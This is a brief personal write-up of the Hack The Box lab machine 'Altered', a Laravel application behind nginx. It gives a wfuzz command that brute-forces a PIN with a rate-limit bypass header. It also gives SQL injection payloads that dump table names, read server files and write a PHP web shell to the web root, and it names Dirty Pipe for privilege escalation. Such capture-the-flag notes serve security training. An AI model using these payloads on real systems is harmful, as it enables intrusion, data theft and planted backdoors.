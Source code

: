 ```yaml
---
title: htb altered
author: Yuchao
date: 2022-04-02 11:33:00 +0800
categories: [sec]
tags: [htb]
math: true
mermaid: true
---
```


Know it`s an php lavarel application behind nginx.

## Brute force Laravel application pin

#### try type juggling
- change content type to application/json
- application/x-www-form-urlencoded, body is ``` name=admin&pin=1234 ```
-  application/json, body is ``` {"name":"admin", "pin":true} ``` try type juggling, php == not === vulnarability, but no on this box.

#### fuzz 
- In type Juggling, we know the php uses ===
- ``` wfuzz -H 'Cookie:{content}' -H 'Content-Type:application/x-www-form-urlencoded' -u {URL/api/resettoken} -d 'name=admin&pin=FUZZ' -z range,1000-9999 ```
- response "too many requests"
- need to bypass rate limit.

#### bypass rate limit
search website like <https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass>

find a way: add ``` X-Forwarded-For: {IP} ``` in the header.

wfuzz with two fuzz positions.
```bash
wfuzz -e iterators

# Available iterators:

#   Name    | Summary                                                                           
# ----------------------------------------------------------------------------------------------
#   chain   | Returns an iterator returns elements from the first iterable until it is exhaust  
#           | ed, then proceeds to the next iterable, until all of the iterables are exhausted  
#           | .                                                                                 
#   product | Returns an iterator cartesian product of input iterables.                         
#   zip     | Returns an iterator that aggregates elements from each of the iterables.  
```

## type juggling and SQL injection

read database
```
{
  "id":"100 union select 1,2,group_concat(concat('\n', table_name, ':', column_name)) from information_schema.columns where table_schema='uhc' -- -",
  "sceret":true
}
```

read file
```
{
  "id":"100 union select 1,2,LOAD_FILE('/etc/nginx/sites-enabled/default')-- -",
  "sceret":true
}
```
find out website`s root file, at /srv/altered/public

write web shell to website
```
{
  "id":"100 union select 1,2,'<?php system($_REQUEST[\"cmd\"]);  ?>' into outfile '/srv/altered/public/shell.php'-- -",
  "sceret":true
}
```
got an error, but file still wrote to server.

Then make a reverse shell by it. Make sure not hang the server after the reverse shell.

## privesc

``` uname -a ```

find the kernel was build on 2022/01/10

Dirty Pipe.
- come out later than the kernel.
- <https://dirtypipe.cm4all.com/>
- overwrite data to file, like passwd.
